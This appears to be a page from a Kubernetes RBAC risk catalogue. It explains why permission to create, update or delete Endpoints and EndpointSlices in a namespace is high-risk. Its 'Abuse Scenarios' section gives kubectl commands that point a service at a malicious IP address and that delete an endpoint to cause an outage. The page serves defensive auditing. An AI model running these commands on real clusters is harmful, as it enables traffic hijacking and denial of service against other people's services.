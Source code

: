 ```yaml
---
id: 1074
title: "Manage Endpoints or EndpointSlices in a namespace"
description: "Permits creating, updating, or deleting Endpoints/EndpointSlices for services within a specific namespace. This can lead to traffic redirection, denial of service, or network policy bypass for applications within that namespace."
category: NetworkManipulation
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                                                    |
| ------------- | ------------------------------------------------------------------------------------------------------------------------ |
| ID            | 1074                                                                                                                     |
| Name          | Manage Endpoints or EndpointSlices in a namespace                                                                        |
| Risk Category | NetworkManipulation                                                                                                      |
| Risk Level    | {{< risk High >}}                                                                                                        |
| Role Type     | Role                                                                                                                     |
| API Groups    | core, discovery.k8s.io                                                                                                   |
| Resources     | endpoints, endpointslices                                                                                                |
| Verbs         | create, update, patch, delete, get, list                                                                                 |
| Tags          | {{< tag "DenialOfService" >}} {{< tag "NetworkManipulation" >}} {{< tag "Tampering" >}} {{< tag "TrafficRedirection" >}} |

## Description

Permits creating, updating, or deleting Endpoints/EndpointSlices for services within a specific namespace. This can lead to traffic redirection, denial of service, or network policy bypass for applications within that namespace.

## Abuse Scenarios

1. Create a new Endpoint to redirect traffic for a service in the namespace.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Endpoints
metadata:
  name: <service-name> # Must match an existing service name
subsets:
  - addresses:
      - ip: <malicious-ip-address>
    ports:
      - port: <service-port>
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF (redirect 'my-app-service')

```

2. Delete an existing Endpoint within the namespace, causing service disruption.

```bash {copy=true}
kubectl delete endpoint <endpoint-name> -n <namespace>
# Example: kubectl delete endpoint my-frontend-service -n default

```
